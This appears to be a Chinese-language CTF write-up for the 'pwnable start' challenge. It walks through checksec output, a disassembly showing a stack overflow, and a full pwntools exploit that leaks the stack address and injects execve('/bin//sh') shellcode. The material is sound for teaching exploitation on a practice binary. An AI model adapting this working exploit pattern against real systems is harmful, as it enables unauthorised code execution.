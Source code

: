 ```yaml
---
author: 
  name: Zephyr
title: pwnable start
date: 2022-4-17 09:15:09
permalink: /pages/2e1547494524d1b9
tags: 
  - buuctf
  - pwn
---
```


# pwnable start

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwnable_start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

程序汇编代码如下：

```asm
start:     file format elf32-i386
Disassembly of section .text:
08048060 <_start>:
 8048060:	54                   	push   %esp
 8048061:	68 9d 80 04 08       	push   $0x804809d
 804806e:	68 43 54 46 3a       	push   $0x3a465443
 8048073:	68 74 68 65 20       	push   $0x20656874
 8048078:	68 61 72 74 20       	push   $0x20747261
 804807d:	68 73 20 73 74       	push   $0x74732073
 8048082:	68 4c 65 74 27       	push   $0x2774654c
 8048087:	89 e1                	mov    %esp,%ecx
 8048089:	b2 14                	mov    $0x14,%dl
 804808b:	b3 01                	mov    $0x1,%bl
 804808d:	b0 04                	mov    $0x4,%al
 804808f:	cd 80                	int    $0x80
 ; write(1,esp,0x14)
 8048091:	31 db                	xor    %ebx,%ebx
 8048093:	b2 3c                	mov    $0x3c,%dl
 8048095:	b0 03                	mov    $0x3,%al
 8048097:	cd 80                	int    $0x80
 ; read(0,esp,0x3c) 
 8048099:	83 c4 14             	add    $0x14,%esp     ; 栈溢出
 804809c:	c3                   	ret    
0804809d <_exit>:
 804809d:	5c                   	pop    %esp
 804809e:	31 c0                	xor    %eax,%eax
 80480a0:	40                   	inc    %eax
 80480a1:	cd 80                	int    $0x80
```

## 思路分析

1. 目前信息：

   - 返回到`esp+0x14`处，但`esp`处可读入`0x3c`长度数据，存在栈溢出
   - No RELRO
   - No canary found
   - NX disabled
   - No PIE
3. 思路

   - 保护全关，考虑`ret2shellcode`，`ret2shellcode`需要先泄漏栈地址，利用栈溢出第一次`ret`到`8048087`处，这时栈顶刚好是程序一开始压栈的`esp`，并且传递给`ecx`，接着`write`系统调用将基址泄漏出来，另外二次写入的地址也是这个泄露出来的基址，常规`ret2shellcode`即可获得`shell`，需要注意的是最后返回到`esp+0x14`处，所以`shellcode`也要对应抬高栈帧


## exp
```shell
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwnable_start/start'
# io = remote('node4.buuoj.cn', 29235)
io = process(pwnfile)
padding = 0x14
leak_addr = 0x8048087
io.sendafter("Let's start the CTF:", flat(['a'*padding, leak_addr]))
esp = u32(io.recv(4))
log.success("esp:"+hex(esp))
shellcode = asm("""
    xor edx,edx;
    xor ecx,ecx;
    push edx;
    push 0x68732f6e;
    push 0x69622f2f;
    mov ebx,esp;
    mov eax,0xb;
    int 0x80;
    """)
log.success("shellcode lenth:"+hex(len(shellcode)))
payload = flat(['a'*padding, esp+padding, shellcode])
io.send(payload)
io.interactive()
```

